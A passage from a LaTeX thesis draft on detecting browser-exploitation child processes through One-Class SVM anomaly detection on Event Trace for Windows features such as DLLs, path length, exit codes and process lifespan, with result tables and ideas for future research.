is to let the encoder to perform its job without any additional complication of the data. The performance obtained in
experiments quite similar. The results are presented in the tables \ref{id:tab:ocsvmOnDirtyCatFullPaths} 
and \ref{id:tab:ocsvmOnDirtyCatMsEdge} as well as the chart \ref{fig:ocsvmNoSplitComp}. Both of those approaches
are capable of detecting outliers with higher success trate than the split path approach. It does
however come with the cost in form of strange characteristics for the low nu values. In the future research 
additional work can be done to test how those approaches perform with a better sample size and to
establish if the DirtyCat encoding can be further adjusted to the anomaly detection task.

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/OcsvmNoSplitComp}
	\caption{Anomaly detection on improved encoded paths.}
	\label{fig:ocsvmNoSplitComp}
 \end{figure}
 
All analysed approaches to path analysis are compared in the graph \ref{fig:pathcomp}. Those results show the
superiority of the anomaly detection based on the relative path length. In this case it is capable of detecting 
76.9\% of outliers with around 6.8\% false negative rate. The moethods based on dirty cat encoding of the paths also managed 
achieve significant results. This is especially ture for the encoding based only on the value 'msedge' where 
the detection results has been achieved with the false negative ratio of 9.1\%. The anomalous behaviour however for now
greatly reduces the usefulness of this approach.

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/PathCompGraph2}
	\caption{Comparison of the path based anomaly detection methods.}
	\label{fig:pathcomp}
 \end{figure}

\subsection{Average processor utilisation}

This feature is the easiest to analyse due to its quantitative nature and the fact that it is
already normalised to the range between 0 and 1. Because of that it does not require virtually 
any preprocessing. The distribution of the values is presented on the 
histogram \ref{fig:histavgproc} with the bins containing anomaly values marked with red. 

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/HistAvgProcs}
	\caption{Distribution of the average processor utilisation.}
	\label{fig:histavgproc}
 \end{figure}

Obtained values show that anomaly detection with this feature may be feasible. It was attempted with 
the One Class SVM and the resulting receiver operating characteristic is presented in the figure
\ref{fig:procroc} and proves the value of the feature. Its ease of utilisation may increase its value.
Additional tests were performed to ruleout the need of preprocessing. Those did not lead to identification
of any methods capable of improving the data.

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/ProcROCKF}
	\caption{The ROC curve of anomaly detection on average processor utilisation.}
	\label{fig:procroc}
 \end{figure}

The raw values of the anomaly detection performance can be accessed in the table \ref{id:tab:OCSVMonProc} located in the 
appendix. 

\subsection{Process lifespan and CPUMsec}
The analysis of the available data was started with the review of the histogram graph which can be found in the 
figure \ref{fig:lifespanHist}. The 'y' axis has been represented in a logarithmic scale to improve reareadability.
This image however indicates that the possibility of detecting of the outliers by means of statistical
analysis is low. This is due to the fact that all outlier samples between the most frequent values. 

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/LifespanHist}
	\caption{Histogram of the process lifespans.}
	\label{fig:lifespanHist}
 \end{figure}

% This was also confirmed by the attempted anomaly detection, the results of which are shown in the table \ref{id:tab:OCSVNlifespans}. 
% This data does not indicate any possibility of its successful utilisation for the purposes of this thesis. This idea should however
% be tested in the future with the a bigger and more versatile dataset.

Collected values have a very wide range which can have a negative impact of the performance of statistical anomaly detection algorithms.
Because of that the data was preprocessed to fit the range from 0 to 1. 

The performed attempt of anomaly detection shows however that this feature may have some value. The results visible in the graph
\ref{fig:lifespanROC} and the raw data from the table \ref{id:tab:OCSVNlifespans} located in the appendix show that achieved accuracy 
is above average. As stated in the initial analysis of this feature, it might benefit significantly from the increased sample size.
This idea shuld undergo additional testing in the future on a bigger and more versatile dataset.

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/ROClifespan}
	\caption{ROC of the process lifespan anomaly detection.}
	\label{fig:lifespanROC}
 \end{figure}

 Symilar analysis and anomaly detection attempt was performed for the CPUMsec data. As shown in the graph \ref{fig:CPUMsecROC} this 
 feature is not as useful for the stated purposes as the process lifespan. Obtained performance is close to random and therefore might
 not provide any utility. Raw values resulting from anomaly detection can be accessed in the table \ref{id:tab:OCSVMCPUMsec}.

 \begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/CPUMsecHist}
	\caption{Histogram of the process CPUMsec values.}
	\label{fig:cpumsecHist}
 \end{figure}
 
\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/ROCCPUMsec}
	\caption{ROC of the process lifespan anomaly detection.}
	\label{fig:CPUMsecROC}
 \end{figure}

\subsection{Exit code}

The selected tested group of processes has assigned either an 64 bit integer value or a no value representation.
The missing values are most probably the result of data gathering termination durring the program execution and
do not correlate to any gathered outlier. This conclusion should however be further tested in the future data gathering.
The missing values were filled in based on the other identical processes.

After the performed preprocessing of the data there are four main values remaining which are showed in the table \ref{id:tab:exitCodeCounts}
along with the counts off occurance for each. The most common value returned by the process is '0' with a significant majority. A different 
value was observed only 5 times which from a statistical point indicates annomalous behaviour. The values '0x1' and '0xc000013a' were
returned for the processes 'ipconfig.exe' and 'powershell.exe' respectively and were normal execution outcomes. The remaining 
entries with value '0xc0000005' show however a more interesting story. Those exit codes were obtained for the 'msedge.exe' program
and a overview of the data shows that the specific instances responsible for the outlier values were in fact the ones on which the 
exploitation was performed. 

\begin{table}
	\centering
	\caption{Counts of the process exit codes in hexadecimal notation.}
	\label{id:tab:exitCodeCounts}
	\begin{tabular}{lr}
		\toprule
		{} &  ExitCode \\
		\midrule
		0x0        &       226 \\
		0xc0000005 &         3 \\
		0x1        &         1 \\
		0xc000013a &         1 \\
		\bottomrule
	\end{tabular}		
\end{table}

Before anomaly detection the available values were casted to integers and normalised.
As shown in the figure \ref{fig:exitCodeROC} and the raw data from table \ref{id:tab:OCSVMexitCode},  
the One Class Support Vector Machine is capable of easily identifying some of the outlier 
samples with a very low cost in a form of false negative results. This performance may help to
significantly boost the performanced of the developed solution. 

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/ExitCodeROC}
	\caption{ROC of the exit code anomaly detection.}
	\label{fig:exitCodeROC}
 \end{figure}

Unfortunetely because of the way the data is constructed the information about the outlier return code of the 
process does not move down the chain to its children. This is especally complicated due to the fact that the parent process
can but does not have to terminated durring its child lifetime. In the future research the topic of anomalous exit
code correlation with spawned child processes can be further elaborated.

\subsection{Combined performance}

To further analyse the potential of the Event Trace for Windows data in the identification of
anomalous processes spawned with zero day exploitation, all identified valuable features were
combined in a single experiment and their parameters were adjusted based on the prevoiusly drawn 
conclusions. The developed approach was tested with the 10-fold cross validation.

The final test utilised following features:
\begin{itemize}
	\item Encoded DLL's - The encoder utilised on the DLL's was trained on all of the collected samples. The MCA 
	threshold was limited to obtain only two dimentions of multiple component analysis and number of clusters was set 
	to two. In this case where the entire available data set was utilised in the training process the 'New DLL'
	coefficient has no impact on the result.  
	\item Path lengths - In the previous tests the number of processes in the path proved to be the most robust feature
	based on the path variable. Because of this it was choosen for the final experiment. All paths were normalised to start
	after the first '/msedge' program. The resulting lengths were consequently normalised to the range between 0 and 1.
	\item Average processor utilisation - Those values due to their percentage based nature require no normalisation. They 
	were fed directly to the anomaly detection algorithm. 
	\item Process lifespan - As in the initial lifespan experiment the available data was normalised to fit the range from 0 to 1.
\end{itemize}

The outlier detection was performed by the One Class SVM for a wide range of 'nu' values. The results of 
this process are displayed in the graph \ref{fig:combinedFinalROC} and the raw data can be accessed in the table 
\ref{id:tab:OCSVMonCombined} located in the appendix. The graph \ref{fig:combinedCompFinalROC} shows those results compared to 
the performance of anomaly detection applied to the individual component features. As shown in the comparison image all of the 
developed approaches have different characteristics which might make the better in different conditions. The anomaly detection
performed only on the process exit codes is capable of detecting anomalies with zero false negative ratio. This is probably
due to a very low variance present in the collected samples. Monitoring of those values only might be the best solution when
the manpower available for investigating anomalies is limited. The combined approach has the second best performance when
the priority is put on the false negative minimisation. At the same time it is capable of 100\% anomaly detection with the lowest
(17.8\%) FN ratio.


\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/CombinedFinalROC}
	\caption{The ROC of anomaly detection performed on combined best features.}
	\label{fig:combinedFinalROC}
 \end{figure}


 \begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/CombinedCompFinalROC}
	\caption{The ROC of anomaly detection performed on combined best features.}
	\label{fig:combinedCompFinalROC}
 \end{figure}

The data in the graph \ref{fig:combinedCompFinalROC} shows also that the performance of the OCSVM directly on average process utilisation
as well as process lifespan is in general below the combined efficiency which might suggest that those components are dragging it down. 
Additional tests were performed on the impact of dropping the worst performing features and its results are presented in the
graph \ref{fig:combinedCompFinalROCDroping}. This image shows that overall improvement can be achieved this way.

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/CombinedFinalROCDroping2}
	\caption{The ROC of anomaly detection performed on selective best features.}
	\label{fig:combinedCompFinalROCDroping}
 \end{figure}

In general best performing combined features (path lengths, encoded DLL's, exit codes) allow for detection of 38\% of the 
outliers with around 1.7\% false positive ratio. Those results show that the developed approach may provide value for some 
security related puropses. This is especially promising since the detection of a single process in the attack chain may 
prevent the entire exploitation process.

\chapter{Summary}

 %TODO ostatnio czytane

There can be multiple conclusions drawn from the performed work. This chapter describes them in 
detail and highlights possible future areas of research.

\section{Security anomaly detection}

The results obtained in the experiments show that with all of the selected features allow 
to perform a security anomaly detection with the above average success ratio. For the tested
data it was possible to obtain a 38\% detection rate with a 1.7\% false negative ratio while
utilising all of the best performing features at once. This obtained score may be significantly 
improved by the increase in the dataset size. This approach to the monitoring of the programs 
running on the operating systems may be utilised in a honeypot traps which are "a sacrificial 
computer systems that are intended to attract cyberattacks, like a decoy" \cite{bib:Honeypot}. 
The best use case for the system would be a deployment of the detector system on the servers and 
computers for the individual users to learn their specific patterns and identify the exploitation
attempts.

\section{Data sample}

The dataset used in the experiments and analysis performed in the thesis can be significantly 
improved. Its main drawback is the available sample size. Gathering additional data would have
positive impact on the reliability of the drawn conclusions. Additionally an improvement 
can be performed in the data gathering process. Simulated utilisation of the monitored system
is a subpar system when compared to a deployment of the datagathering agents on the hosts of 
multiple real users. Obtaining the data from multiple sources would also allow for the cross
analysis of the algorithm's performance. 

A very interesting aspect would be also how the developed methods perform on the samples from 
different exploit. Exploit CVE-2021-40444 allows for arbitrary code execution in the same 'msedge'
process and could be utilised to gain deeper insight into the problem \cite{bib:newEdgeExploit}.

\section{Browser intricacies}

Browsers as programs are highly impacted by the actions of the users. They are capable of spawning
multiple very distant in the purpose subprocesses. In the same session a single user can open start
a notepad to view a text file as well as starting an installation process which in turn starts a 
video game under the same umbrella of the browser subprocesses. This characteristic significantly
complicates the anomaly detection process. This also suggests that methods and approaches developed
for the application with the browsers may be highly effective when utilised with other outward 
facing programs like databases, web servers etc.

Since the start of the work on this thesis there has been reports of new 0-day vulnerabilities that were
utilised by the advanced persistent threat groups to target security researchers. Exploitation of the
software flaws in some versions of the Adobe Acrobat and Reader can lead to arbitrary code execution\cite{bib:AdobeExploit}.
This developed framework could be further researched and tested on this latest attack vector. This 
software may have a very different behaviour profile which may lead to interesting discoveries.

\section{Unutilised data}

Due to the limitations imposed in the data gathering process by the restricted memory resources and its
design multiple promising data features available in the Event Trace for Windows framework had to be
left out of scope. Those include the information about the memory utilisation, hard drive input/output 
operations, system registry access, network send/receive and others. All those types of information
may indicate ongoing exploitation or postexploitation actions like scanning of the available resources
and data exfiltration. In the further research additional 
data should be gathered and analysed. This may require a design and implementation of the custom  
gathering framework.

Additional research can also be performed to incorporate in to the developed framework the 
information included in the 'CommandLine' feature which can be found in the dataset gathered for the purposes
of this thesis.

Currently the developed framework focuses on the detection of the spawning of new outlier processes.
Additional low level data could be utilised to attempt the detection of the normal processes that behave
in a suspicious manner due to the ongoing exploitation.

\section{Possible DLL hijacking detection}

DLL hijacking is a technique of privilege escalation on Windows operating systems by hijacking the 
search order of the DLL loading. This allows for the execution of arbitrary code with the same rights 
as the exploited program. It can also be used as a persistance technique \cite{bib:DLLhijacking}.
Some aspects of the gathered information were not used in the anomaly detection process but may be
used to detect this specific type of attack. 

Those include the "build time" and the "File version" of the loaded modules as well as their paths.
Example of this data is presented in the figure x.

\section{Software classification via multiple correspondance analysis}

The correlation of software by the loaded DLL's is a interesting idea that has not been
found in the known literature. This idea may be worth further research. It maybe worth
the effort to perform the multiple correspondance analysis on the DLL's loaded by a wide range 
of programs and to analyse how the obtained results correspond to their functionalities. It may also
be useful to check where passible malware samples lay in the obtained feature space. This would also
allow to further assess the real value of the custom DLL encoder designed in the thesis. 

\section{Performance of different algorithms}

The work done in this thesis focused on establishing whether the anomaly detection performed on the
data obtained from the Event Trace for Windows framework is possible and whether a significant results
can be obtained. For this purpose a single classification algorithm was utilised. In the future work 
additional tests can be performed with multiple anomaly detection methods to establish how well each 
of them performs on the available data. This may include the utilisation of the latest state of the 
art algorithms based on the artificial neural networks like autoencoders.

%jak się robi rsvm w scikit

% \begin{itemize}
% \item synthetic description of performed work
% \item conclusions
% \item  future development, potential future research
% \item Has the objective been reached?
% \end{itemize}

% dodanie elementu czasowego do analizy



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\backmatter
\pagenumbering{Roman}
\stepcounter{PagesWithoutNumbers}
\setcounter{page}{\value{PagesWithoutNumbers}}

\pagestyle{onlyPageNumbers}

%%%%%%%%%%% bibliography %%%%%%%%%%%%
\bibliographystyle{plain}
\bibliography{bibliography}

%%%%%%%%%  appendices %%%%%%%%%%%%%%%%%%% 

\begin{appendices} 


\chapter*{Technical documentation}

\chapter*{List of abbreviations and symbols}

\begin{itemize}
\item[IT] information technology
\item[WPA] Windows Performance Analyzer 
\item[ETW] Event Trace for Windows 
\item[ROC] Receiver Operating Characteristic
\item[SVM] Support Vector Machine 
\item[ETL] Event Trace Log 
\item[DLL] Dynamic link library
\item[RSVM] Robust Support Vector Machines 
\item[P] Positive 
\item[N] Negative 
\item[FP] False Positive
\item[FN] False Negative  
\end{itemize}

\chapter*{Listings}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%DLL

\begin{table}
	\centering
	\caption{Anomaly detection on raw DLL data}
	\label{id:tab:rawDlls}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       209 &         3 &              10 &               9 \\
		1  &  0.050 &       207 &         3 &              10 &              11 \\
		2  &  0.075 &       202 &         4 &               9 &              16 \\
		3  &  0.100 &       194 &         4 &               9 &              24 \\
		4  &  0.125 &       194 &         6 &               7 &              24 \\
		5  &  0.150 &       187 &         8 &               5 &              31 \\
		6  &  0.175 &       183 &         8 &               5 &              35 \\
		7  &  0.200 &       179 &         9 &               4 &              39 \\
		8  &  0.225 &       174 &        10 &               3 &              44 \\
		9  &  0.250 &       167 &        10 &               3 &              51 \\
		10 &  0.275 &       121 &        10 &               3 &              97 \\
		11 &  0.300 &        20 &        13 &               0 &             198 \\
		12 &  0.325 &        60 &        13 &               0 &             158 \\
		13 &  0.350 &        19 &        13 &               0 &             199 \\
		14 &  0.375 &        35 &        13 &               0 &             183 \\
		15 &  0.400 &        63 &        13 &               0 &             155 \\
		16 &  0.425 &       132 &        10 &               3 &              86 \\
		17 &  0.450 &       161 &        10 &               3 &              57 \\
		18 &  0.475 &       154 &        10 &               3 &              64 \\
		19 &  0.500 &       144 &        10 &               3 &              74 \\
		20 &  0.525 &       142 &        10 &               3 &              76 \\
		21 &  0.550 &       142 &        10 &               3 &              76 \\
		22 &  0.575 &       142 &        10 &               3 &              76 \\
		23 &  0.600 &       142 &        10 &               3 &              76 \\
		24 &  0.625 &       142 &        10 &               3 &              76 \\
		25 &  0.650 &       142 &        10 &               3 &              76 \\
		26 &  0.675 &       142 &        10 &               3 &              76 \\
		27 &  0.700 &       142 &        10 &               3 &              76 \\
		28 &  0.725 &       142 &        10 &               3 &              76 \\
		29 &  0.750 &       142 &        10 &               3 &              76 \\
		30 &  0.775 &       142 &        10 &               3 &              76 \\
		31 &  0.800 &       142 &        10 &               3 &              76 \\
		32 &  0.825 &       142 &        10 &               3 &              76 \\
		33 &  0.850 &       142 &        10 &               3 &              76 \\
		34 &  0.875 &       142 &        10 &               3 &              76 \\
		35 &  0.900 &       142 &        10 &               3 &              76 \\
		36 &  0.925 &       142 &        10 &               3 &              76 \\
		37 &  0.950 &       142 &        10 &               3 &              76 \\
		38 &  0.975 &       142 &        10 &               3 &              76 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}
\end{table}

\begin{table}
	\centering
	\caption{Anomaly detection on normalised DLL counts}
	\label{id:tab:countOCSVM}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       213 &         1 &              12 &               5 \\
		1  &  0.050 &       211 &         3 &              10 &               7 \\
		2  &  0.075 &       201 &         4 &               9 &              17 \\
		3  &  0.100 &       199 &         6 &               7 &              19 \\
		4  &  0.125 &       186 &         8 &               5 &              32 \\
		5  &  0.150 &       181 &        10 &               3 &              37 \\
		6  &  0.175 &       168 &        10 &               3 &              50 \\
		7  &  0.200 &       164 &        10 &               3 &              54 \\
		8  &  0.225 &       173 &        10 &               3 &              45 \\
		9  &  0.250 &       171 &        10 &               3 &              47 \\
		10 &  0.275 &       170 &        10 &               3 &              48 \\
		11 &  0.300 &       159 &        10 &               3 &              59 \\
		12 &  0.325 &       159 &        10 &               3 &              59 \\
		13 &  0.350 &       170 &        10 &               3 &              48 \\
		14 &  0.375 &       169 &        10 &               3 &              49 \\
		15 &  0.400 &       168 &        10 &               3 &              50 \\
		16 &  0.425 &       167 &        10 &               3 &              51 \\
		17 &  0.450 &       167 &        10 &               3 &              51 \\
		18 &  0.475 &       177 &        10 &               3 &              41 \\
		19 &  0.500 &       177 &        10 &               3 &              41 \\
		20 &  0.525 &       177 &        10 &               3 &              41 \\
		21 &  0.550 &       164 &        10 &               3 &              54 \\
		22 &  0.575 &       164 &        10 &               3 &              54 \\
		23 &  0.600 &       163 &        10 &               3 &              55 \\
		24 &  0.625 &       163 &        10 &               3 &              55 \\
		25 &  0.650 &       163 &        10 &               3 &              55 \\
		26 &  0.675 &       163 &        10 &               3 &              55 \\
		27 &  0.700 &       163 &        10 &               3 &              55 \\
		28 &  0.725 &       175 &        10 &               3 &              43 \\
		29 &  0.750 &       174 &        10 &               3 &              44 \\
		30 &  0.775 &       164 &        10 &               3 &              54 \\
		31 &  0.800 &       162 &        10 &               3 &              56 \\
		32 &  0.825 &       162 &        10 &               3 &              56 \\
		33 &  0.850 &       162 &        10 &               3 &              56 \\
		34 &  0.875 &        73 &        13 &               0 &             145 \\
		35 &  0.900 &        52 &        13 &               0 &             166 \\
		36 &  0.925 &        28 &        13 &               0 &             190 \\
		37 &  0.950 &        28 &        13 &               0 &             190 \\
		38 &  0.975 &        10 &        13 &               0 &             208 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}
\end{table}

\begin{table}
\centering
\caption{Eigenvalues of the multiple correspondance analysis.}
\label{id:tab:MCAEigenvalues}
\begin{tabular}{rr}
	\toprule
	 Dimentions &  Eigenvalues \\
	\midrule
			  0 &     0.278652 \\
			  1 &     0.126788 \\
			  2 &     0.108930 \\
			  3 &     0.067005 \\
			  4 &     0.058106 \\
			  5 &     0.046981 \\
			  6 &     0.022424 \\
			  7 &     0.014908 \\
			  8 &     0.011448 \\
			  9 &     0.008646 \\
			 10 &     0.007569 \\
			 11 &     0.004358 \\
			 12 &     0.003819 \\
			 13 &     0.003075 \\
			 14 &     0.002759 \\
			 15 &     0.001986 \\
			 16 &     0.001220 \\
			 17 &     0.000840 \\
			 18 &     0.000622 \\
			 19 &     0.000473 \\
			 20 &     0.000428 \\
			 21 &     0.000297 \\
			 22 &     0.000208 \\
	\bottomrule
	\end{tabular}
\end{table} 

\begin{table}
\centering
\caption{Values of the multiple correspondance analysis.}
\label{id:tab:MCAValues}
\begin{tabular}{rrr}
	\toprule
		Dim 0 &     Dim 1 &     Dim 2 \\
	\midrule
	-0.000786 &  0.094955 & -0.170278 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.287204 & -0.019984 &  0.007545 \\
	-1.295154 &  0.533901 & -0.690322 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	-0.084455 &  0.143001 & -0.235539 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.287204 & -0.019984 &  0.007545 \\
	-0.258942 &  0.178374 & -0.073033 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-1.097736 &  0.132434 &  1.278262 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.721461 &  0.353485 & -0.367996 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.037923 &  0.108548 & -0.156661 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.022125 &  0.052553 & -0.116180 \\
	 0.303286 & -0.019973 &  0.006682 \\
